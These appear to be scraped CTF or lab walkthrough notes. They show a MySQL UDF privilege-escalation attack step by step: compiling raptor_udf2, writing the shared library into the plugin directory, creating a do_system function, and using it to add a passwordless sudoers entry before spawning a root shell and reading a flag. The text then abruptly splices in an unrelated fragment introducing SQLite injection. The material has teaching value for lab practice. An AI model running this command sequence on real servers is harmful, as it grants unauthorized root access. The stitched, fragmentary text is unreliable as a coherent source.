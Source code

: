 copied it into VM

```
gcc -g -c raptor_udf2.c

gcc -g -shared -Wl,-soname,raptor_udf2.so -oraptor_udf2.so raptor_udf2.o -lc

```
mysql -u root -p   (password : darkshadow )

mysql> use mysql;

mysql> create table foo(line blob);

mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

mysql> create function do_system returns integer soname 'raptor_udf2.so';

mysql> select * from mysql.func;

+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

1 row in set (0.00 sec)

mysql> select do_system('echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');

mysql> exit

sudo bash

whoami

root

cat Flag.txt


### SQL light 3 injection
```
Hits from the bits

@_gwae

SQLite Injection

Introduction

SQLite is a small RDBMS, written in C. Due to his size, it's widely used in embedded systems (GPS, Android, etc) - you don't 

need any server or any daemon : everything works thanks to a complete set of functions in nearly all languages.

Getting started

The easiest way to discover SQLite tricks is to try it directly on the shell !

In SQLite, the way to get the version is :

sqlite> SELECT sqlite_version();

3.7.17

Nothing hard when it's time to create some tables...
```